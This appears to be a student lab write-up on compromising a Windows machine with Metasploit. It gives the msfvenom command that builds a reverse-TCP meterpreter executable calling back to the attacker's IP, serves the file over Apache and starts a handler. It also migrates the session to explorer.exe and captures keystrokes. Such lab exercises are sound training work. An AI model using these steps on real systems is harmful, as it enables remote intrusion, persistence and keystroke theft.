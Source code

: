 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
### Find the attackers ip address using ifconfig.
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_15_40.png)

### Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_21_00.png)

### copy the fun.exe into the apache /var/www/html folder.
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_25_21.png)

### Start apache server sudo systemctl apache2 start.

![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_27_57.png)

### Check the status of apache2.

![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_32_17.png)

### Invoke msfconsole:
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_24_04_2024_09_22_56.png)

### Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_24_04_2024_09_19_32.png)

### Starting a command and control Server use multi/handler
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_56_24.png)

### set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_56_24http.png)

### Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_56_24ex.png)

### To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_56_24red.png)

### The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
### migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_24_04_2024_09_19_32.png)

### Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_56_24gr.png)

### keyscan_dump Shows the keystrokes captured so far
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_12_56_24ai.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
